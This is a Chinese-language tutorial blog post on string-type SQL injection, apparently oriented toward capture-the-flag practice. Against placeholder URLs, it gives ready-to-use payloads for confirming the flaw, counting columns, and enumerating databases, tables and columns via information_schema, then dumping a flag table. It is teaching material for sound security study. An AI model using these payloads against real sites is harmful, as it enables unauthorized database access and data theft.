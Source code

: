 title: 字符型sql注入利用方法
author: weizhao
tags:
  - sql注入
categories:
  - 攻防
date: 2021-03-14 15:18:00
---
# 确定是否存在字符型sql注入
* __使用 and '1'='1 和 and '1'='2来判断：__

	Url 地址中输入 http://xxx/abc.php?id= 1' and '1'='1 页面运行正常，继续进行下一步。

　　Url 地址中继续输入 http://xxx/abc.php?id= 1' and '1'='2 页面运行错误，则说明此 Sql 注入为字符型注入
  
* 将单引号闭合
在url中使用“--+”将单引号闭合：
http://XXX/abc.php?id=1' and '1'='1'--+

__ 注意“--”后面要添加+号，sql语句会变为：
select *from user where id='1' and '1'='1'-- '__

* 判断当前表的列数：
http://xxx/abc.php?id=1' order by 1--+
利用order by语句判断，当按照第4列排序时页面返回异常，说明当前表为3列。

* 得到当前的数据库名称：
http://xxx/abc.php?id=1' and '1'='2' union select 1,2,database()--+
在页面上即可得到当前的数据库名称。

* 得到当前数据库包含的数据表：
http://xxx/abc.php?id=1' and '1'='2' union select 1,2,table_name from information_schema.tables where table_schema=database() limit 0,1--+

	**此时的sql语句为：**
select *from user where id='1' and '1'='2' union select 1,2,table_name from information_schema.tables where table_schema=database() limit 0,1-- '

得到第一个表的名称，继续使用limit 1,1得到下一个表的名称，一直到页面异常。

* 得到某个表包含的列及名称：
http://xxx/abc.php?id=1' and '1'='2' union select 1,2,column_name from information_schema.columns where table_schema=database() and table_name='error_flag' limit 0,1--+

	**此时的sql语句为：**
    select *from user where id='1' and '1'='2' union select 1,2,column_name from information_schema.columns where table_schema=database() and table_name='error_flag' limit 0,1-- '
    
   得到error_flag表的第一个列名，继续使用limit 得到表的每一个列名，直到页面异常。
  
 * 根据得到表的列及名称得到表的记录：
 http://xxx/abc.php?id=1' and '1'='2' union select 1,id,flag from error_flag limit 0,1 --+
 
使用limit依次得到表的每一条记录。
